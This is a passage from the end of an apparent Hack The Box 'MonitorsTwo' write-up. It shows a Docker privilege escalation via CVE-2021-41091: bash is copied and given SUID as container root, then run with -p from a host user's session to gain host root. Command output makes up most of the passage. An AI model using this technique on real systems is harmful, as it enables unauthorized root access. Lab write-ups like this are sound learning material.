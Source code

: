 ```
bin   dev            etc   lib    media  opt   root  sbin  sys   tmp  var
boot  entrypoint.sh  home  lib64  mnt    proc  run   srv   test  usr
```
Copying and setting SUID on container bash:
```
root@50bca5e748b0:/# cp /bin/bash .    
root@50bca5e748b0:/# chmod +s ./bash
```
Seeing the privileges set from marcus:
```
marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged -al
total 1304
drwxr-xr-x 1 root root    4096 Apr 30 03:21 .
drwx-----x 5 root root    4096 Apr 30 22:55 ..
-rwsr-sr-x 1 root root 1234376 Apr 30 03:22 bash
<...SNIP...>
```
Running the SUID bash from marcus
```
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bash -p
bash-5.1# whoami
root
bash-5.1# pwd
/home/marcus
```
We can see the privilege escalation was successful, we are now root and still outside of the docker container!

## Reflection
While this box stayed true to the Easy ranking it achieved, I appreciated seeing a docker exploit such as this. Linux's UID handling and ownership is something I find to be quite interesting, especially in cases like these, where the permissions of a root user on a restricted environment can still be abused outside the scope. The article on CVE-2021-41091 was a blast to read, and I'm glad I know more than before!
